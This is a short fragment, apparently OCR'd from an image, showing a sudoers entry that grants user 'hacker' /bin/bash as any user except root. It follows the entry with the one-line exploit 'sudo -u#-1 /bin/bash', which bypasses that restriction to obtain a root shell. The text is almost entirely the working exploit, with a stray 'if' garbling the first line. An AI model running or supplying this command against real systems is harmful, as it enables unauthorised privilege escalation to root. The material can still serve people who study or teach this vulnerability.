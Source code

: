 if# User privilege specification  
root    ALL=(ALL:ALL) ALL  
  
hacker ALL=(ALL,!root) /bin/bash  
  
exploit is:  
  
sudo -u#-1 /bin/bash